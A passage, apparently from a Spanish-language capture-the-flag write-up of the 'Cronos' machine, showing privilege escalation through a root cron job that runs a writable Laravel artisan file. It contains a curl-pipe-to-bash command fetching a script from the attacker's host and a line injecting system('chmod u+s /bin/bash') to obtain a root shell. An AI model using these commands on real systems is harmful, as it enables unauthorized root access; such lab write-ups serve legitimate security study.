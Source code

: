 Pero las bases de datos que nos salen son las que vimos con la inyección de tiempo que hicimos antes:  
- Usarios: noulis y root (nosotros somos www-data). Podemos acceder a la user.txt de noulis 

Hay una tarea cron corriendo:
```* * * * *	root	php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1```
```console
www-data@cronos:/tmp$ curl http://10.10.14.16/procmon.sh | bash
> /usr/sbin/CRON -f
> /bin/sh -c php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
> php /var/www/laravel/artisan schedule:run
< /bin/sh -c php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

Root ejecuta con php el artisan este (es el script de arranque de laravel):  
```console
www-data@cronos:/var/www/admin$ cat /var/www/laravel/artisan
<?php (...)
www-data@cronos:/var/www/admin$ ls -l /var/www/laravel/artisan
-rwxr-xr-x 1 www-data www-data 1646 Apr  9  2017 /var/www/laravel/artisan
```
Como hay permisos de escritura, se puede añadir al principio (despues de las cabeceras php) esta linea  ```system("chmod u+s /bin/bash");``` (Hacer SUID a la bash)
```console
www-data@cronos:/var/www/admin$ bash -p
bash-4.3# whoami
root
```

